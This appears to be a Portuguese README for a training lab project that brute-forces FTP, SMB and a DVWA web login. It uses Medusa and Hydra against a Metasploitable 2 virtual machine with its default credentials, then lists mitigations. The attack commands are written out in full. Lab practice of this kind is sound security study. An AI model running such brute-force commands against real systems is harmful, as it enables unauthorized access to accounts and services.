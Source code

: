 # bruteforce-medusa-kali-dio
Projeto de prática de Brute Force em laboratório

Objetivo
Demonstrar um ataque de força bruta a serviços vulneráveis usando a ferramenta Medusa no ambiente Kali Linux, aplicando em máquinas virtuais de laboratório (Metasploitable 2 e DVWA), documentando o processo, os comandos utilizados e recomendações de mitigação.

Ambiente do Laboratório
Kali Linux: Máquina atacante

Metasploitable 2: Máquina alvo (IP: 192.168.56.2)

Usuário padrão: msfadmin

Senha padrão: msfadmin

Teste de conectividade:

bash
ifconfig
ping 192.168.56.2
Criação das Wordlists
bash
# Wordlist de usuários
echo "msfadmin" > users.txt

# Wordlist de senhas
echo "msfadmin" > passwords.txt
Comandos Utilizados
Ataque Brute Force FTP
bash
medusa -h 192.168.56.2 -u msfadmin -P passwords.txt -M ftp
# Ou, usando lista de usuários
medusa -h 192.168.56.2 -U users.txt -P passwords.txt -M ftp
Ataque Brute Force SMB
bash
medusa -h 192.168.56.2 -U users.txt -P passwords.txt -M smbnt
Testando Acesso via SMBClient
bash
smbclient -L //192.168.56.2 -U msfadmin
smbclient //192.168.56.2/tmp -U msfadmin
Ataque Brute Force em Web Form (DVWA)
bash
hydra -L users.txt -P passwords.txt 192.168.56.2 http-post-form "/dvwa/login.php:username=^USER^&password=^PASS^&Login=Login"
Aprendizados
Como ataques de força bruta funcionam em serviços como FTP, SMB e formulários web

Criação de wordlists personalizadas conforme ambiente

Testes automatizados com ferramentas open-source

Análise dos resultados e validação dos acessos obtidos

Recomendações de Segurança
Habilitar autenticação multifator nos serviços

Aplicar política de complexidade e renovação de senhas

Monitorar e limitar tentativas consecutivas de login

Atualizar softwares e serviços regularmente

